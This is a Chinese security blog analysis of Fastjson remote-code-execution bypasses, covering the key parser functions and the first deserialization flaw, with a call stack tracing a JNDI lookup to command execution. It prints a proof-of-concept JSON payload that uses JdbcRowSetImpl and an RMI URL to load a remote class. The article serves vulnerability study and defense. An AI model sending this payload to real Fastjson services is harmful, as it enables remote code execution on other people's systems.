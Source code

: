 > 原文链接: https://www.anquanke.com//post/id/182140 


# Fastjson RCE漏洞的绕过史


                                阅读量   
                                **305144**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t01a305ff8c3d77587c.png)](https://p3.ssl.qhimg.com/t01a305ff8c3d77587c.png)



Author:平安银行应用安全团队-Glassy

## 引言

最近一段时间fastjson一度成为安全圈的热门话题，作为一个是使用十分广泛的jar包，每一次的RCE漏洞都足以博得大众的眼球，关于fastjson每次漏洞的分析也已经早有大牛详细剖析，本文章旨在顺着17年fastjson第一次爆出漏洞到现在为止，看一下fastjson的缝缝补补，瞻仰一下大佬们和安全开发人员的斗智斗勇，对期间的漏洞做一个汇总，获悉其中漏洞挖掘的一些规律。



## Fastjson RCE关键函数

DefaultJSONParser. parseObject()  解析传入的json字符串提取不同的key进行后续的处理

TypeUtils. loadClass()   根据传入的类名，生成类的实例

JavaBeanDeserializer. Deserialze() 依次调用@type中传入类的对象公有set\get\is方法。

ParserConfig. checkAutoType() 阿里后续添加的防护函数，用于在loadclass前检查传入的类是否合法。



## 历史fastjson漏洞汇总与简析

### fastjson RCE漏洞的源头

首先来看一次fastjson反序列化漏洞的poc

```
`{`"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit"," "autoCommit":true`}`
```

先看调用栈

```
Exec:620, Runtime  //命令执行

…

Lookup:417, InitalContext   /jndi lookup函数通过rmi或者ldap获取恶意类

…

setAutoCommit:4067, JdbcRowSetImpl 通过setAutoCommit从而在后面触发了lookup函数

…

```
